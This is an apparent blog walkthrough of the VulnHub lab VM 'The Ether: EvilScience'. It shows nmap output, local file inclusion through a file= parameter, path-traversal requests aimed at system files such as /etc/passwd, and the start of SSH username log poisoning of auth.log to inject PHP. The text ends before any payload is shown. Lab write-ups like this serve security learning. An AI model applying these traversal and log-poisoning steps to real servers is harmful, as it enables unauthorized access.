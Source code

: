# The Ether: EvilScience v1.0.1

This one immediately caught my attention for a number of reasons. For one thing, it has a plot - which always makes trying to get into a machine a bit more fun. It also purports to be very difficult:

`
This challenge is not for beginners. There is a relevant file on this machine that plays an important role in the challenge, do not waste your time trying to de-obfuscate the file, I say this to keep you on track. This challenge is designed test you on multiple areas and it’s not for the feint of heart!
`

The VM is available [here](https://www.vulnhub.com/entry/the-ether-evilscience-v101,212/) and is honestly the most challenging and enjoyable vulnerable VM I have attempted so far. It was strongly reminiscent of some of the harder OSCP labs, and I had a lot of fun doing it. All told, I would say that it took me about half a day to complete.

## Getting Started

As per usual, I began by running `netdiscover` to find the system on my host-only network. Then I ran a quick NMap scan:

```
Starting Nmap 7.60 ( https://nmap.org ) at 2018-04-16 20:01 BST
Nmap scan report for 192.168.56.101
Host is up (0.00028s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
MAC Address: 08:00:27:86:D1:5D (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Pretty standard results. We have an SSH server and a HTTP server to look at.

## The Ether

Visiting the webserver reveals a pretty standard website based on a template. It's built on PHP and consists of only a few pages, built on a free template called Carinary. Googling around for vulnerabilities related to the template or software versions produced little in the way of results, so I decided to poke around the server itself. It didn't take long, as there is very little functionality available to interact with.

The only thing that stood out to me was the URI. When you visit any page other than the homepage, you get a URL that looks something like this:

`http://192.168.56.101/index.php?file=research.php`

Obviously, the alarm bells immediately went off in my head: "LFI! LFI! LFI"!. It seems like a classic vector for file inclusion. To test whether this is indeed the case, I decided to download the Carinary template myself and have a look at what files it contains. After a couple false starts, I tried this:

`http://192.168.56.101/index.php?file=layout/styles/layout.css`

As we may have expected, this dumps the contents of the layout.css file at the top of our index.php page. It seems we have successful file inclusion - the question is, how can we leverage it to compromise the system?

## Enumerating the LFI

I decided to play around with the LFI a bit more to see what the limitations of my ability to read files is:

```
file=layout/styles/layout.css - successful file inclusion
file=../../../../../../../../../../../../../../../../../../../bin/ls = works
file=../../../../../../../../../../../../../../../../../../../etc/passwd = does not work
file=../../../../../../../../../../../../../../../../../../../var/www/html/index.html = default page
file=../../index.html = apache default page
file=/bin/ls = works
```

This confirms that I can include a variety of files - but not all of them. Some files I would expect to be able to access, like /etc/passwd and /etc/issue, are not accessible to - indicating that whole directories are out of the question. I also found that a lot of the files and directories I would normally use to get PHP code execution are not available, including:

* /var/log/apache2/access.log (and variants)
* /var/log/apache2/error.log (and variants)
* /proc/self/environ
* The php:// scheme is available, but does not seem to work for sending code via POSTDATA.
* The data:// scheme is available, but also does not seem to work for code inclusion.

At this point, getting frustrated, I started going through every file I thought that *may* be accessible. Finally, after a good hour or so of enumeration, I discovered a log file that I have the ability to read: `/var/log/auth.log`. This file keeps a rolling record of attempts to login via SSH; including it gives us access to the contents of the file:

```
Nov 23 19:49:48 theEther sudo: pam_unix(sudo:session): session closed for user root
Nov 23 19:49:53 theEther login[842]: pam_unix(login:session): session closed for user evilscience
Nov 23 19:49:53 theEther systemd-logind[782]: Removed session 1.
Nov 23 19:50:00 theEther sshd[872]: Received signal 15; terminating.
Apr 19 16:02:53 theEther systemd-logind[701]: New seat seat0.
Apr 19 16:02:53 theEther systemd-logind[701]: Watching system buttons on /dev/input/event0 (Power Button)
Apr 19 16:02:53 theEther systemd-logind[701]: Watching system buttons on /dev/input/event1 (Sleep Button)
Apr 19 16:02:53 theEther systemd-logind[701]: Watching system buttons on /dev/input/event3 (Video Bus)
Apr 19 16:02:54 theEther sshd[752]: Server listening on 0.0.0.0 port 22.
Apr 19 16:02:54 theEther sshd[752]: Server listening on :: port 22.
Apr 19 16:02:54 theEther sshd[752]: Received SIGHUP; restarting.
Apr 19 16:02:54 theEther sshd[752]: Server listening on 0.0.0.0 port 22.
Apr 19 16:02:54 theEther sshd[752]: Server listening on :: port 22.
Apr 19 16:02:54 theEther sshd[752]: Received SIGHUP; restarting.
Apr 19 16:02:54 theEther sshd[752]: Server listening on 0.0.0.0 port 22.
Apr 19 16:02:54 theEther sshd[752]: Server listening on :: port 22.
Apr 19 16:04:59 theEther sshd[1067]: Invalid user test from 192.168.56.102
Apr 19 16:04:59 theEther sshd[1067]: input_userauth_request: invalid user test [preauth]
Apr 19 16:05:01 theEther sshd[1067]: Connection closed by 192.168.56.102 port 35362 [preauth]
Apr 19 16:05:27 theEther sshd[1069]: Invalid user  from 192.168.56.102
Apr 19 16:05:27 theEther sshd[1069]: input_userauth_request: invalid user  [preauth]
Apr 19 16:05:29 theEther sshd[1069]: Connection closed by 192.168.56.102 port 35366 [preauth]
```

## Getting RCE

It is possible to use the auth.log file to inject PHP code into a page, but it is not easy. Every time a nonexistent user tries and fails to connect via SSH, their username gets logged into the file and remains there until it rolls over. If we're careful with the number of characters we use and make sure to escape shell characters, we can use this property to get very short snippets of PHP code into the auth log.

The first step is to enumerate just how many characters we have to work with. After all, we only get one shot at this. If we inject a PHP snippet and it gets cut off before we get a chance to close it, the entire auth.log file will be useless to us until it rolls over. So I tried:

`ssh "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa@192.168.56.101"`

